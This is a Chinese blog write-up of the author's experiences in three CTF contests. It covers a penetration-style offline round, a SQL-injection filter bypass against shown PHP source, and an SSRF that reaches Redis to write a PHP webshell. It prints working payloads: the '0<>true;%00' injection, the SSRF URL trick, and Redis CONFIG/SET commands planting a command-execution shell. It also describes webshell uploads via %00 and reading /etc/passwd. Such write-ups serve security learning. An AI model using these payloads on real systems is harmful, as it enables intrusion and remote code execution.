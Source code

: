 ```yaml
---
layout: post
title: CCTF_DCTF_XDCTF的收获
date: 2017-10-02
tags: CTF
---
```


### CCTF

嘛，CCTF线上已经忘记了，当时的Writeup也忘记保存了。只记得做了几个Web，然后逆向什么的队友带飞（感谢哒哒哒哒哒以及二进制大佬）。

线下怎么说呢，第一次参加渗透版线下，主办方给了三个不同的ip，每个ip下有三层网络。Emmm...我觉得对于我们这种弱鸡一层就够了。ip1没有web服务器，只有一个22端口和一个奇怪的端口。队友说奇怪的端口是一个什么服务（忘记了），进了1的内网可以直接访问进1。ip2是一个web服务器，应该是一个商城，没记错的话。各种找漏洞利用点。robots写着站长英语不好，所以没有写。后来脑洞大开，想后台地址会不会是houtai之内的中文后台名，结果还真猜对了。后来发现后台有个越权，可以不登陆直接修改礼物信息，addlipin.asp。这里面可以直接上传图片等。于是乎%00绕过，%00记得使用的URL编码。成功上传一个asp小马，然后小马上传大马。大马搜索关键字有flag的文件。成功找到2个flag。可是还有个数据库里的flag，400分。没拿到。这道题很奇怪，各种提权都失败。cmd.exe传了也没用。控制命令几乎一个没有。结果我队一直认为必须想办法提权，或者自己加入cmd的命令写注册表开启3389。然后找到flag（asp编码能力太差）并进入ip1且可以进入下层网络。

emmm...结果就是，卡住太久，导致ip3没有做完，ip3只找到一个flag，卡在后台登录界面，后台登录赛后听说有注入，不过自己试的时候完全没发现啊。于是大佬们注入的注入，爆破密码的爆破密码，唯独我拿了个国外字典跑了半天没跑出来放弃了。赛后听说密码是admin123，心里很崩溃，因为自己试了adminadmin\admin123456\admin1234等，就是没尝试admin123。。。不然又能拿到flag。还能往ip1或者下层网络继续渗透。。。

所以，因为死磕ip2的提权太久，从第6降到了第12，成功拿到线上三等奖（摊手）。对了，还有个比赛时的趣事，好像因为ip3的界面留下了一个版权信息，于是我加了版权信息留下的qq，以为是主办方的人，让我们社工一波。跑过去社工一下，发现根本不是！而是真的cms的厂商。。。尴尬，和人尬聊。

总结：字典要强大，不要死磕（虽然死磕是个好习惯）。工具、字典什么的都要提前准备好。还是要多打多做积累经验才是王道。

### DCTF

嘛，被虐的体无完肤。junior的题凭什么最多才5point，一般都1、2point。还特么很难。web1是一个SQL注入，源代码泄露。拿到源代码。

	<?php

	$db  = mysqli_connect('localhost','root','root','test');
	
	$id  = @$_GET['id'];
	$key = $db->real_escape_string(@$_GET['key']);
	//$key = @$_GET['key'];
	
	if(preg_match('/\s|[\(\)\'"\/\\=&\|1-9]|#|\/\*|into|file|case|group|order|having|limit|and|or|not|null|union|select|from|where|--/i', $id))
	    die('Attack Detected. Try harder: '. $_SERVER['REMOTE_ADDR']); // attack detected
	
	$query = "SELECT `id`,`name`,`key` FROM `user` WHERE `id` = $id AND `key` = '".$key."' ";
	echo $query;
	$q = $db->query($query);
	
	if($q->num_rows) {
	    echo '<h3>Users:</h3><ul>';
	    while($row = $q->fetch_array()) {
	        echo '<li>'.$row['name'].'</li>';
	    }
	
	    echo '</ul>';
	} else {
	    die('<h3>Nop.</h3>');
	}
	
源代码如上。id正则过滤很多，看着头大。key没有正则过滤但是有一个real_escape_string()。开始以为必须要绕过key，于是各种尝试宽字节无果，然后想办法设置编码为有问题的编码无果。毕竟sql语句拼接就这样，没地方可拼。后来实在没有办法，id的正则丢进正则测试工具，所有符号打一遍，留下没被过滤的符号看看。emmm....事后发现的关键有`;``0``<``>``%`。

当时想到`id=0;`截断语句，然后插入新的语句再注释掉后面的。无果。后来发现`id=0<>true;%00`;与%00缺一不可。没有`;`会造成语句没有结束继续等待的sql语法错误，没有`%00`后面的语句会被执行造成sql语法错误。

web2首先被导向有一个flag.php，很明显要得到它，直接到index.php看看是什么，发现是一个httpbin web应用。

![1](/images/posts/dctf/1.png)

可以选择POST、GET请求，URL进行了过滤，不允许localhost、127.0.0.1等域名。Data反而似乎没什么限制。这个会以你选择的请求方式请求一次你输入的URL，并将简单的HTTP报文返回。开始以为能导致命令执行，尝试多次，无果。返回URL错误。后来大佬表示这是一个CSRF、MD5碰撞。这道题有两个思路，CSRF是通过请求http://foo@127.0.0.1@foo/，欺骗DNS绕过URL的检测。然后在端口6379上发现返回。猜测是redis的默认端口。于是改为POST请求发送Data。Data中写redis的命令，往服务器写入shell.php。

	CONFIG set dir /var/www/sandbox
	CONFIG set dbfilename shell.php
	SET a '<?=`$_GET[1]`?>'
	SAVE

POST上去后，服务器返回如下：

	-ERR unknown command 'POST'
	-ERR unknown command 'Host:'
	-ERR unknown command 'Authorization:'
	-ERR unknown command 'Accept:'
	-ERR unknown command 'Content-Length:'
	-ERR unknown command 'Content-Type:'
	+OK
	+OK
	+OK

于是访问shell.php即可拿到flag.php

### XDCTF

嘛，web3的index.php会通过参数file打开index.html和flag.html。flag.html只有你什么都找不到这样的信息，然后目录扫描什么的又得不到信息。不过惊喜的是file可以得到index.php自己，在注释里看到了所有的源代码。于是尝试文件任意读取，可是居然找不到flag.php？？？？？喵喵喵？？？好吧，找到一个.DS_Store。可能flag的名字就在里面吧，于是下载下来解开查看目录，空的？？？喵喵喵？？？没办法，只有查看敏感文件如/etc/passwd，没有有用的信息，/etc/hosts。在hosts找到了这些。

	127.0.0.1 localhost
	::1 localhost ip6-localhost ip6-loopback
	fe00::0 ip6-localnet
	ff00::0 ip6-mcastprefix
	ff02::1 ip6-allnodes
	ff02::2 ip6-allrouters
	172.18.0.3 ecba35241264
	
猜测是扫描C段找到172.18.0.3，然后就可以拿到权限或者找到flag。然而服务器日常宕机。扫描不出来。。。卡死在这一步。

转载请注明：[碎雪的小屋](http://RoyTse.github.io) » [CCTF_DCTF_XDCTF的收获](http://RoyTse.github.io/2017/10/CCTF_DCTF_XDCTF的收获/)  